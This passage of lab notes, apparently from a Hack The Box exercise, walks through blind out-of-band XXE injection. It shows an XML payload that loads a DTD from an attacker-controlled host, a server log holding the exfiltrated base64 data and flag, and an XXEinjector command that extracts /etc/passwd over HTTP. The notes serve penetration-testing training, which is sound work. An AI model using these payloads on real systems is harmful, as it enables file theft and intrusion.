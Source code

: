 ``` HTTP

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- Data retrieved on the Response on the PHP server
``` TXT
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50464 [200]: GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50464 Closing
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50466 Accepted
[Mon Nov 11 22:04:06 2024] 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```
#### Automated
- [XXEinjector](https://github.com/enjoiz/XXEinjector)
- Copy the HTTP request from Burp and write it to a file for the tool to use. 
- Don't include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:
``` HTTP
POST /blind/submitDetails.php HTTP/1.1
[Headers_SNIP]....

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
- run the tool
``` bash
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
* All exfiltrated files get stored in the Logs folder under the tool `cat Logs/10.129.201.94/etc/passwd.log`
---